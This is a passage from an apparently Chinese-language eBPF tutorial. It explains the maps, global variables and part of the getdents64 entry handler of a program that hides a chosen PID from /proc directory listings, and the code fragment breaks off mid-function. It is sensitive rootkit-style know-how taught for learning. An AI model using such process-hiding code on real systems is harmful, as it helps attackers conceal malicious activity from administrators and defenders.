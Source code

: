 ```c
struct {
    __uint(type, BPF_MAP_TYPE_PROG_ARRAY);
    __uint(max_entries, 5);
    __type(key, __u32);
    __type(value, __u32);
} map_prog_array SEC(".maps");
```

我们首先需要理解这个 eBPF 程序的基本构成和使用到的几个重要组件。前几行引用了几个重要的头文件，如 "vmlinux.h"、"bpf_helpers.h"、"bpf_tracing.h" 和 "bpf_core_read.h"。这些文件提供了 eBPF 编程所需的基础设施和一些重要的函数或宏。

- "vmlinux.h" 是一个包含了完整的内核数据结构的头文件，是从 vmlinux 内核二进制中提取的。使用这个头文件，eBPF 程序可以访问内核的数据结构。
- "bpf_helpers.h" 头文件中定义了一系列的宏，这些宏是 eBPF 程序使用的 BPF 助手（helper）函数的封装。这些 BPF 助手函数是 eBPF 程序和内核交互的主要方式。
- "bpf_tracing.h" 是用于跟踪事件的头文件，它包含了许多宏和函数，这些都是为了简化 eBPF 程序对跟踪点（tracepoint）的操作。
- "bpf_core_read.h" 头文件提供了一组用于从内核读取数据的宏和函数。

程序中定义了一系列的 map 结构，这些 map 是 eBPF 程序中的主要数据结构，它们用于在内核态和用户态之间共享数据，或者在 eBPF 程序中存储和传递数据。

其中，"rb" 是一个 Ringbuffer 类型的 map，它用于从内核向用户态传递消息。Ringbuffer 是一种能在内核和用户态之间高效传递大量数据的数据结构。

"map_buffs" 是一个 Hash 类型的 map，它用于存储目录项（dentry）的缓冲区地址。

"map_bytes_read" 是另一个 Hash 类型的 map，它用于在数据循环中启用搜索。

"map_to_patch" 是另一个 Hash 类型的 map，存储了需要被修改的目录项（dentry）的地址。

"map_prog_array" 是一个 Prog Array 类型的 map，它用于保存程序的尾部调用。

程序中的 "target_ppid" 和 "pid_to_hide_len"、"pid_to_hide" 是几个重要的全局变量，它们分别存储了目标父进程的 PID、需要隐藏的 PID 的长度以及需要隐藏的 PID。

接下来的代码部分，程序定义了一个名为 "linux_dirent64" 的结构体，这个结构体代表一个 Linux 目录项。然后程序定义了两个函数，"handle_getdents_enter" 和 "handle_getdents_exit"，这两个函数分别在 getdents64 系统调用的入口和出口被调用，用于实现对目录项的操作。

```c

// Optional Target Parent PID
const volatile int target_ppid = 0;

// These store the string representation
// of the PID to hide. This becomes the name
// of the folder in /proc/
const volatile int pid_to_hide_len = 0;
const volatile char pid_to_hide[MAX_PID_LEN];

// struct linux_dirent64 {
//     u64        d_ino;    /* 64-bit inode number */
//     u64        d_off;    /* 64-bit offset to next structure */
//     unsigned short d_reclen; /* Size of this dirent */
//     unsigned char  d_type;   /* File type */
//     char           d_name[]; /* Filename (null-terminated) */ }; 
// int getdents64(unsigned int fd, struct linux_dirent64 *dirp, unsigned int count);
SEC("tp/syscalls/sys_enter_getdents64")
int handle_getdents_enter(struct trace_event_raw_sys_enter *ctx)
{
    size_t pid_tgid = bpf_get_current_pid_tgid();
    // Check if we're a process thread of interest
    // if target_ppid is 0 then we target all pids
    if (target_ppid != 0) {
        struct task_struct *task = (struct task_struct *)bpf_get_current_task();
        int ppid = BPF_CORE_READ(task, real_parent, tgid);
        if (ppid != target_ppid) {
            return 0;
        }
    }
    int pid = pid_tgid >> 32;
    unsigned int fd = ctx->args[0];
    unsigned int buff_count = ctx->args[2];
```